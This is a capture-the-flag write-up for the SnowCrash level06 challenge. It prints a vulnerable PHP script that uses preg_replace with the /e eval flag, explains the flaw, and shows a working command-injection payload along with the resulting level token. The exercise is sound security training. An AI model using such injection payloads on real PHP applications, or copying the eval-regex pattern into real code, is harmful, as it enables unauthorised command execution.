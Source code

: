 # level06

## Nightmare inducing PHP regex

For this level, we are met with a binary and a PHP script.
```bash
level06@SnowCrash:~$ ls
level06  level06.php
level06@SnowCrash:~$ cat level06.php
```
```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
Gross. Lets make that a bit less awful to read.
```php
<?php
function y($arg1) {
    $arg1 = preg_replace("/\./", " x ", $arg1);
    $arg1 = preg_replace("/@/", " y", $arg1);
    return $arg1;
}

function x($arg1, $unused) {
    $ret = file_get_contents($arg1);
    $ret = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $ret);
    $ret = preg_replace("/\[/", "(", $ret);
    $ret = preg_replace("/\]/", ")", $ret);
    return $ret;
}

$res = x($argv[1], $argv[2]);
print $res;
?>
```
After consulting my local regex wizard ([this lad](https://github.com/acarlson99)), and reading the docs on `preg_replace`,
the point of interest is the `e` flag in the regex. 

This eval flag causes the string to be run through the PHP eval function, so if we surround something in backticks, we can
pass an arbitrary command to the shell and get its output.
```bash
level06@SnowCrash:~$ echo '[x {${`getflag`}}]' >/tmp/arg; \
> ./level06 /tmp/arg unused_argument
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

level06@SnowCrash:~$ su level07
Password: wiok45aaoguiboiki2tuin6ub
level07@SnowCrash:~$ 
```
